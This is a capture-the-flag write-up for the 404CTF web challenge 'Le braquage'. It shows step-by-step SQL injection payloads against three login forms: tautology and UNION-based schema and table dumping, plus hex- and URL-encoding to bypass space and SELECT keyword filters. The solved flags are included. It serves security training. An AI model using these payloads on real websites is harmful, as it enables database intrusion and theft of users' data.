



# Web / Le braquage

## Challenge
Vous êtes sur une affaire de cambriolage. D’après vos informations, un criminel surnommé TITI a prévu une rencontre avec ses complices pour préparer son prochain casse.

Heureusement, votre équipe est parvenu à trouver un site qu’ils utilisent. Ce site leur permet de communiquer et d’échanger des lieux de rendez-vous ainsi que des fausses identités. A vous d’exploiter cette base de données pour obtenir des informations sur le suspect et son opération : nom, prénom, adresse visée, date du casse, heure du casse, téléphone, mot de passe.

Les différents morceaux de flag sont sous la forme : `404CTF{Nom}`, `404CTF{Prénom}`, `404CTF{Adresse}`, `404CTF{Date}`, `404CTF{Heure}`, `404CTF{Téléphone}`, `404CTF{Mdp}`.

Le flag final est la concaténation de tous les morceaux sans espace : `404CTF{NomPrénomTéléphoneAdresseDateHeureMdp}`

## Inputs
- Web site: `https://le-braquage.404ctf.fr`

## Solution
The web site displays three parts, each with a identification form, where we presumably have to do some `SQL injection` to extract data, considering the quite explicit titles:
- Discuter avec des vendeurs d’OR près de chez vous
- UNION des vendeurs d’OR de la région
- Rencontrez des vendeurs et parler avec eux sans FILTRES





## 1st form - Discuter avec des vendeurs d’OR près de chez vous
Field `Identifiant` looks vulnarable to `SQL injection`. It throws a MySQL error when sending a single quote:
```
balise 2Array ( [0] => 42000 [1] => 1064 [2] => You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1 )
```

Try to fix the query by adding an `OR` statement as suggested and also a comment to terminate the query right after the `OR` statement:
```
1' or 1=1 -- -
```

Bingo:
```
Id    Pseudonyme  Téléphone 	Adresse                  Code
1     RIRI        0145489625	5 avenue des groseilles  OpérationEpervier
2     FIFI        0145889625	1 rue des myrtilles      OpérationFaucon
3     LOULOU      0115789625	1 rue des pommes         OpérationFaucon
456   JAJA        0145769625	1 rue des pommes         OpérationGorfou
472   RORO        0189999625	5 boulevard des poires   OpérationFaucon
7456  TITI        404CTF{0145769456}	404CTF{21 rue des kiwis}	OpérationGorfou
7865  DEDE        0145781225	3 avenue des oranges     OpérationMouette
16579 DIDI        0145789625	1 rue des pommes         OpérationEpervier
```

We have our first flags:
- 404CTF{0145769456}
- 404CTF{21 rue des kiwis}

## 2nd form - UNION des vendeurs d’OR de la région
Sending a quote returns the same statement as in the previous step, so start with an `OR` statement closed by a query like before and also add a `UNION` statement as suggested:
```
1' or 1=1 union select 1-- -
```

We get a different MySQL error, essentially saying that the number of selected columns is wrong:
```
Array ( [0] => 21000 [1] => 1222 [2] => The used SELECT statements have a different number of columns )
```

We can fix it by increasing the number of selected columns. Two columns can fix it:
```
1' or 1=1 union select 1,2-- -
```

We can now control what is returned for Pseudo `1`:
```
Pseudo  Coopérative
DEDE    Collaboration des négociants de minerais de Franche-Comté
DIDI    Association des vendeurs d'or de France
FIFI    Corporation des fournisseurs de pierres précieuses d'Île-de-France
JAJA    Regroupement des marchands de joyaux d'Ille-et-Vilaine
LOULOU  Association des vendeurs d'or de France
RIRI    Association des vendeurs d'or de France
RORO    Corporation des fournisseurs de pierres précieuses d'Île-de-France
TITI    Regroupement des marchands de joyaux d'Ille-et-Vilaine
1       2
```

We can confirm we can inject in the field we are controlling:
```
1' or 1=1 union select 1,version()-- -
```
```
1	8.0.29
```

We can use it to dump the MySQL databases:
```
1' or 1=1 union select 1,GROUP_CONCAT(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA-- -
```
```
1	information_schema,UnionVendeurs
```

Next, dump the table names for database `UnionVendeurs`:
```
1' or 1=1 union select 1,GROUP_CONCAT(TABLE_NAME) from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA='UnionVendeurs'-- -
```
```
1	Users,cooperatives
```

Next, the column names for table `Users`:
```
1' or 1=1 union select 1,GROUP_CONCAT(COLUMN_NAME) from INFORMATION_SCHEMA.COLUMNS where TABLE_SCHEMA='UnionVendeurs' and TABLE_NAME='Users'-- -
```
```
1	id,nom,prenom
```

Finally dump the columns of table `Users`:
```
1' or 1=1 union select 1,GROUP_CONCAT(id,nom,prenom) from UnionVendeurs.Users-- -
```
```
1	1AssinMarc,2OutanLaurent,3GatorAli,456ReptileEric,472CuléRoland,7456404CTF{Vereux}404CTF{UnGorfou},7865AbbéOscar,16579CondaAnna
```

We have our next flags:
- 404CTF{Vereux}
- 404CTF{UnGorfou}

## 3rd form - Rencontrez des vendeurs et parler avec eux sans FILTRES
Sending a quote returns the same statement as in the previous steps, so start again with an `OR` statement closed by a query like before:
```
1' or 1=1-- -
```
Apparently, spaces are not allowed, although URL encoded by our browser:
```
Requête invalide : ne pas mettre d'espace
```

Encode the spaces in hexadecimal; Also encode the quote in hexadecimal like so::
```
1%27%20or%201=1--%20-
```

Bingo!
```
Code                Date                Heure
OpérationEpervier   2021-11-02          19h
OpérationMouette    2021-09-14          19h
OpérationFaucon     2022-01-01          20h
OpérationGorfou     404CTF{2022-07-14}  404CTF{01hDuMatin}
```

We have our next flags:
- 404CTF{2022-07-14}
- 404CTF{01hDuMatin}

But we're still missing the password. Let's dump the databases here as well:
```
1%27%20or%201=1%20UNION%20SELECT%201,GROUP_CONCAT(SCHEMA_NAME)%20from%20INFORMATION_SCHEMA.SCHEMATA--%20-
```
```
Attaque détectée : SELECT utilisé
```

We can also encode the `SELECT` statement in hexadecimal (`%53%45%4c%45%43%54`) like so and get nothing, but we clearer the error!
```
1%27%20or%201=1%20UNION%20%53%45%4c%45%43%54%201--%20-
```

After increasing the number of requested columns, we get something with 3 columns and we can verify we can inject
```
1%27%20or%201=1%20UNION%20%53%45%4c%45%43%54%201,2,3--%20-
```
```
Code                Date                Heure
OpérationEpervier   2021-11-02          19h
OpérationMouette    2021-09-14          19h
OpérationFaucon     2022-01-01          20h
OpérationGorfou     404CTF{2022-07-14}  404CTF{01hDuMatin}
1                   2                   3
```

And we can verify we can inject in one of the fields we're controlling:
```
1%27%20or%201=1%20UNION%20%53%45%4c%45%43%54%201,2,version()--%20-
```
```
1	2	8.0.29
```

We can use it to dump the MySQL databases:
```
1%27%20or%201=1%20UNION%20%53%45%4c%45%43%54%201,2,GROUP_CONCAT(SCHEMA_NAME)%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20-
1	2	information_schema,RencontreVendeurs
```
```
1%27%20or%201=1%20UNION%20%53%45%4c%45%43%54%201,2,GROUP_CONCAT(TABLE_NAME)%20FROM%20INFORMATION_SCHEMA.TABLES%20where%20TABLE_SCHEMA='RencontreVendeurs'--%20-
1	2	Password,Rdv
```
```
1%27%20or%201=1%20UNION%20%53%45%4c%45%43%54%201,2,GROUP_CONCAT(COLUMN_NAME)%20FROM%20INFORMATION_SCHEMA.COLUMNS%20where%20TABLE_SCHEMA='RencontreVendeurs'%20and%20TABLE_NAME='Password'--%20-
1	2	id,mdp
```
```
1%27%20or%201=1%20UNION%20%53%45%4c%45%43%54%201,2,GROUP_CONCAT(id,mdp)%20FROM%20RencontreVendeurs.Password--%20-
1	2	1d7uA9kYU3,25qKrD4F7p,3SXq3rZ35v,456FGp4Q93tk,472qJB5y45Xe,7456404CTF{GorfousAuPouvoir},7865S5eN2p5Wj,16579T3h98HdFy
```

We finally have our last flag:
- 404CTF{GorfousAuPouvoir}

## Summary
To summarize all we have:
- 404CTF{0145769456}
- 404CTF{21 rue des kiwis}
- 404CTF{Vereux}
- 404CTF{UnGorfou}
- 404CTF{2022-07-14}
- 404CTF{01hDuMatin}
- 404CTF{GorfousAuPouvoir}

We are given the flag format: 404CTF{NomPrénomTéléphoneAdresseDateHeureMdp}, without spaces.

## Flag
404CTF{VereuxUnGorfou014576945621ruedeskiwis2022-07-1401hDuMatinGorfousAuPouvoir}
